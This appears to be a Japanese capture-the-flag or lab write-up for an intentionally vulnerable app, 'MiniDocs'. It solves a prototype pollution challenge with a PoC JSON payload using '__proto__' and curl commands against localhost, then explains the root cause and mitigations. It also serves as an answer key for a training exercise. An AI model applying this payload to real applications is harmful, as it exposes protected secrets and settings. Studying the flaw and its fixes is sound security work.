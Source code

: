 # MiniDocs — Prototype Pollution（中級）ブラウザ解法

## 解法（ブラウザ）

### 1) `/admin` の “feature-flags” 画面へ
- **前提**：管理者でログイン済み（IDOR で入手したパスワードを使用）。
- **URL欄**：`http://127.0.0.1:8000/admin`
- **画面名**：「Admin」
- 上部カード **「設定変更」** に `patch (JSON)` テキストエリアと **Apply** ボタンがある（送信先：`POST /admin/feature-flags`）。

### 2) フォーム/リクエストの JSON 形式
- サーバは本文を **JSON / URLエンコード両対応**で受理し、`json` フィールドをパースして `patch` として扱う。
- 受理される**ルートキー**は `limits` と `featureFlags` のみ（allow-list）。
- **正攻法の拒否**：`{"featureFlags":{"revealSecret":true}}` のように直接 `revealSecret` を指定しても、サーバ側で削除される（“システム専用フラグ”）。

### 3) 送信ペイロード（PoC）
```json
{"featureFlags":{"__proto__":{"revealSecret":true}}}
```
- **狙い**：脆弱な `deepMerge` が **`__proto__` をそのまま潜る**ため、`Object.prototype.revealSecret = true` が汚染される。  
- 以降、UI は `RUNTIME.featureFlags.revealSecret` を**素朴に参照**するので、prototype 由来でも真と解釈される。

### 4) 送信後の画面変化と `<FLAG_PP>` の確認箇所
1. **Apply** で送信後、`/admin` に 302 リダイレクト。
2. 管理画面下部カード **「現在の設定」** の Diagnostics JSON に注目：  
   - `secretPreview` が **`"(hidden)" → "<FLAG_PP>"`** へ変化している。  
   - ここに `<FLAG_PP>` が可視化される（*「どこで見えるか」=「現在の設定」カードの JSON 表示部*）。

### つまずきポイント / 代替ルート
- **直接指定は無効**：`{"featureFlags":{"revealSecret":true}}` は受理されても**削除**され効果なし。`__proto__` 経由のみ成功。  
- **送信形式**：テキストエリアの通常フォーム送信（URLエンコード）でも、`Content-Type: application/json` でも成立。

---

## 付録：curl 参考（数行）
> 先に **admin** でログインして Cookie を取得しておくこと。フラグの実文字列は表示しない。

```bash
# 1) admin でログイン
curl -s -c c.txt -d 'user=admin&pass=<hidden>' http://127.0.0.1:8000/login > /dev/null

# 2) __proto__ 汚染を JSON で適用（/admin/feature-flags）
curl -s -b c.txt -H 'Content-Type: application/json'   -d '{"featureFlags":{"__proto__":{"revealSecret":true}}}'   http://127.0.0.1:8000/admin/feature-flags > /dev/null

# 3) Diagnostics で secretPreview の露出を確認
curl -s -b c.txt http://127.0.0.1:8000/admin | grep -A2 '"secretPreview"'   # => "<FLAG_PP>"
```

---

## 根本原因と対策（Prototype Pollution）
- **原因**：再帰マージ `deepMerge` が **`__proto__`/`prototype`/`constructor`** を**ブロックせず**に潜るため、`Object.prototype` が汚染される。UI 側も `ownProperty` 判定をせず素朴に参照。  
- **対策（最小）**：
  - ① マージ前に **危険キー拒否**（`['__proto__','prototype','constructor']` を除去）。  
  - ② ライブラリ利用時は **proto 汚染無効化オプション**を有効化。  
  - ③ 参照側も **`Object.hasOwn` / `hasOwnProperty`** で自前プロパティのみ採用する二重防御。
